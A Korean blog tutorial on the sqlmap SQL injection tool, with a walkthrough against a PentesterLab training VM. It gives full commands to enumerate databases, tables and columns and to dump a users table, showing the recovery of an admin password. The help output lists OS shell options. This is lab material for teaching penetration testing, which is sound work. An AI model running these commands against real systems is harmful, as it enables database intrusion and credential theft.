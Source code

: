 ```yaml
---
title: "SQLMap 사용법"
tags: [database, sqlmap]
author: eli_ez3r
key: 20191025
modify_date: 2019-10-25
article_header:
  type: cover
  image:
    src:
---
```


## 0x00. 개요

 **[sqlmap]( http://sqlmap.org/ )(automatic SQL injection and database takeover tool)**은 공개 모의침투 도구로 SQL구문삽입(SQL Injection) 취약점을 탐지/진단하고 데이터베이스에 직간접적으로 접근할 수 있는 취약점 분석 도구이다. 

SQL 구문삽입 공격은 DB 구조 파악이 가장 힘든 작업인데, 수작업으로 진행하기에는 매우 많은 시간이 걸린다. `sqlmap`은 DB 구조파악, 테이블 내용 유출 등을 자동화해주기 떄문에 웹취약점에 대한 수동분석 과정에서 상당히 많은 시간을 절약할 수 있게 도와주는 매우 훌륭한 프로그램이다. 

-----



## 0x01. 설치방법

Linux 시스템에서 다음과 같이 간단하게 설치할 수 있다.

```
apt-get install sqlmap -y
```

-----



## 0x02. 사용법

### (1) 도움말

다음 명령어를 통해서 `sqlmap`에 대한 도움말을 볼 수 있다.(보다 자세한 도움말을 보려면 `sqlmap -hh`)

```
sqlmap -h
```

```
root@ubuntu:~# sqlmap -h
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.3.4#stable}
|_ -| . ["]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

Usage: python sqlmap [options]

Options:
  -h, --help            Show basic help message and exit
  -hh                   Show advanced help message and exit
  --version             Show program's version number and exit
  -v VERBOSE            Verbosity level: 0-6 (default 1)

  Target:
    At least one of these options has to be provided to define the
    target(s)

    -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")
    -g GOOGLEDORK       Process Google dork results as target URLs

  Request:
    These options can be used to specify how to connect to the target URL

    --data=DATA         Data string to be sent through POST (e.g. "id=1")
    --cookie=COOKIE     HTTP Cookie header value (e.g. "PHPSESSID=a8d127e..")
    --random-agent      Use randomly selected HTTP User-Agent header value
    --proxy=PROXY       Use a proxy to connect to the target URL
    --tor               Use Tor anonymity network
    --check-tor         Check to see if Tor is used properly

  Injection:
    These options can be used to specify which parameters to test for,
    provide custom injection payloads and optional tampering scripts

    -p TESTPARAMETER    Testable parameter(s)
    --dbms=DBMS         Force back-end DBMS to provided value

  Detection:
    These options can be used to customize the detection phase

    --level=LEVEL       Level of tests to perform (1-5, default 1)
    --risk=RISK         Risk of tests to perform (1-3, default 1)

  Techniques:
    These options can be used to tweak testing of specific SQL injection
    techniques

    --technique=TECH    SQL injection techniques to use (default "BEUSTQ")

  Enumeration:
    These options can be used to enumerate the back-end database
    management system information, structure and data contained in the
    tables. Moreover you can run your own SQL statements

    -a, --all           Retrieve everything
    -b, --banner        Retrieve DBMS banner
    --current-user      Retrieve DBMS current user
    --current-db        Retrieve DBMS current database
    --passwords         Enumerate DBMS users password hashes
    --tables            Enumerate DBMS database tables
    --columns           Enumerate DBMS database table columns
    --schema            Enumerate DBMS schema
    --dump              Dump DBMS database table entries
    --dump-all          Dump all DBMS databases tables entries
    -D DB               DBMS database to enumerate
    -T TBL              DBMS database table(s) to enumerate
    -C COL              DBMS database table column(s) to enumerate

  Operating system access:
    These options can be used to access the back-end database management
    system underlying operating system

    --os-shell          Prompt for an interactive operating system shell
    --os-pwn            Prompt for an OOB shell, Meterpreter or VNC

  General:
    These options can be used to set some general working parameters

    --batch             Never ask for user input, use the default behavior
    --flush-session     Flush session files for current target

  Miscellaneous:
    --sqlmap-shell      Prompt for an interactive sqlmap shell
    --wizard            Simple wizard interface for beginner users

[!] to see full list of options run with '-hh'
```

-----



## 0x03. 실습

sqlmap 실습을 위해서 [PentesterLab의 From SQL Injection to Shell 훈련장]( https://pentesterlab.com/exercises/from_sqli_to_shell/course )을 대상으로 진행한다.

[경고]실제 서버를 공격하여 생기는 책임은 본인에게 있음을 경고합니다. .{:.warning} 

Warning Text. {:.warning} 

 ![Image](http://eliez3r.synology.me/assets/img/study/db/sqlmap/image-20191025114201321.png){:.border.rounded} 

![image](http://eliez3r.synology.me/assets/img/study/db/sqlmap/image-20191025114516313.png){:.border.rounded}



### (1) GET 방식 입력 값 점검

다음 명령어를 이용하여 GET방식의 입력값 점검을 할 수 있다.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1"
```

 ![img](http://eliez3r.synology.me/assets/img/study/db/sqlmap/SNAGHTML38e12cd3.PNG){:.border.rounded}  

OS정보와 Web Application정보, DBMS정보등을 알아오는 것을 알 수 있다.



사전에 DBMS정보를 알고 있는 경우는 다음 명령어를 사용하면 된다.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1" --dbms=mysql
```



#### 데이터베이스 목록 조회

다음 명령어를 통해 데이터베이스의 목록을 조회할 수 있다.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1" --dbs
```

![image](http://eliez3r.synology.me/assets/img/study/db/sqlmap/image-20191025122018616.png){:.border.rounded} 



#### 테이블 목록 조회

데이터베이스의 이름을 알아내었으니 해당 데이터베이스의 테이블 목록을 조회해보자.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1" -D photoblog --tables
```

![image](http://eliez3r.synology.me/assets/img/study/db/sqlmap/image-20191025122242193.png){:.border.rounded} 

해당 데이터베이스의 테이블들을 조회한 모습을 볼수 있다.



#### 컬럼 목록 조회

이제 해당 테이블의 컬럼 목록을 조회해보자.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1" -D photoblog -T users --columns
```

![image](http://eliez3r.synology.me/assets/img/study/db/sqlmap/image-20191025122542041.png){:.border.rounded} 



#### 테이블 내용 덤프

users테이블의 모든 내용들을 덤프해보자.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1" -D photoblog -T users --dump
```

![image](http://eliez3r.synology.me/assets/img/study/db/sqlmap/image-20191025122738312.png){:.border.rounded} 

user는 `admin` 계정이 존재하고 패스워드는 hash값으로 되어있지만, 해당 해쉬값이 P4ssw0rd 임을 알려준다.

-----



### (2) POST 방식 입력 값 점검

POST방식일 경우 `--data` 옵션을 이용하면된다.

```
sqlmap -u "http://192.168.23.131/admin/index.php" --data "user=USER&password=PASS"
```

-----

